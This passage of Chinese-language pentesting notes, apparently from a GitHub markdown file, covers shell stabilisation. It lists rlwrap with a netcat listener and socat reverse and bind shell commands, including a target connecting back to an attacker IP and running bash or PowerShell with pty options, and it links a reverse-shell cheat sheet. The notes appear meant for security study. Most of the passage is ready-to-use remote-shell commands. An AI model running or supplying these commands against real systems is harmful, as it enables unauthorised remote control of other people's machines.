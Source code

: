   
      ![Python_Stabilisation_shell](image/Python_Stabilisation_shell.png)
  - 方法二：rlwrap
    - `rlwrap nc -lvnp <port>`
    - 在 windows 上可以使用。
  - 方法三：Socat
    - **`python3 -m http.server <port>`**
    - Reverse Shell
      - 本地监听
        - `socat TCP-L:<port> -`
      - 回连
        - `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`
          - **pipes** 强制 powershell 使用Unix风格
        - `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`
    - Bind Shell
      - 远程监听
        - `socat TCP-L:<port> EXEC:powershell.exe`
        - `socat TCP-L<port> EXEC:"bash -li"`
      - 本地连接
        - `socat TCP:<TARGET-IP>:<TARGET-PORT> -`
    - Socat稳定Reverse Shell
      - 本地监听
        - ``socat TCP-L:<port> FILE:`tty`,raw,echo=0 ``
      - 远程回连
        - `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
          - **pty**，在目标上分配一个伪终端——稳定过程的一部分
          - **stderr**，确保任何错误消息都显示在 shell 中（通常是非交互式 shell 的问题）
          - **sigint**，将任何 Ctrl + C 命令传递到子进程中，允许我们在 shell 中终止命令
          - **setsid**，在新会话中创建进程
          - **sane**，稳定终端，试图“正常化”它。

      ![Socat_1](image/socat_1.jpg)
- Common Shell Payloads
  - [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)